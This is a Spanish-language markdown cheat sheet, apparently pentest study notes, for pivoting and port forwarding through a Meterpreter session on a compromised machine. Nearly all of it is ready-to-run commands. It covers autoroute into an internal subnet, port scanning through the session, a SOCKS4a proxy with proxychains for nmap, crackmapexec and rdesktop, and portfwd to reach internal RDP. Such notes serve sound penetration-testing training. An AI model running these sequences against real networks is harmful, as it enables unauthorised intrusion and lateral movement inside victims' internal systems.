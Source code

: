 # Pivoting y Portforgarding: Metasploit/meterpreter

## 🧭 [1] Enumerar interfaces en la máquina comprometida

```bash
meterpreter > ipconfig
```
> Muestra todas las interfaces de red disponibles en la máquina víctima. Útil para identificar redes internas alcanzables para pivoting.

---

## 🔁 [2] Pivoting automático con `autoroute`

### Paso 1: Cargar el módulo autoroute

```bash
msf6 > use post/multi/manage/autoroute
```

### Paso 2: Configurar sesión y red

```bash
set SESSION 1
set CMD add
set SUBNET 172.16.113.0
set NETMASK 255.255.255.0
run
```
> Agrega automáticamente una ruta interna a través de la sesión Meterpreter para que puedas lanzar otros ataques a esa red.

### Paso 3: Ver rutas activas

```bash
set CMD print
run
```

O directamente:

```bash
route print
```
> Muestra las rutas disponibles para pivoting desde Metasploit.

---

## 🧰 [3] Usar módulos de escaneo sobre la red pivoteada

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.113.0/24
set PORTS 80,135,139,443,445,3389
run
```
> Escaneo TCP a través de la sesión con autoroute configurado.

---

## 🌐 [4] Pivoting manual con SOCKS4a + proxychains

### Paso 1: Levantar proxy SOCKS

```bash
use auxiliary/server/socks4a
run
```
> Abre un proxy SOCKS en `127.0.0.1:1080` para enrutar tráfico externo.

### Paso 2: Verificar que Metasploit reconoce la sesión para proxy

```bash
route print
```
- Usar multi/handler y configurar la ruta de ser necesario:

```
route add 172.16.113.0/24 12
```

> Asegurate de que tu sesión aparece como gateway para la red deseada.

### Paso 3: Configurar proxychains

Editar `/etc/proxychains.conf` y al final dejar:

```
socks4 127.0.0.1 1080
```

### Paso 4: Usar herramientas externas

```bash
proxychains nmap -Pn -sT -p 445 172.16.113.10
proxychains crackmapexec smb 172.16.113.10 -u user -p pass
proxychains rdesktop 172.16.113.10
```

---

## 🚪 [5] Port forwarding (redireccionamiento de puertos)

### Local port forward (atacar desde Kali a servicio remoto)

```bash
meterpreter > portfwd add -l 4444 -p 3389 -r 172.16.113.10
```
- `-l`: Puerto local en Kali.
- `-p`: Puerto remoto en la red interna.
- `-r`: IP remota dentro de la red pivoteada.

> Esto te permite hacer `rdesktop 127.0.0.1:4444` como si estuvieras conectado directamente.

### Ver forwards activos

```bash
meterpreter > portfwd list
```

### Eliminar un forward

```bash
meterpreter > portfwd delete -l 4444
```

---

## 🔒 [6] Borrar rutas agregadas por autoroute (si hace falta)

```bash
set CMD delete
set SUBNET 172.16.113.0
set NETMASK 255.255.255.0
run
```



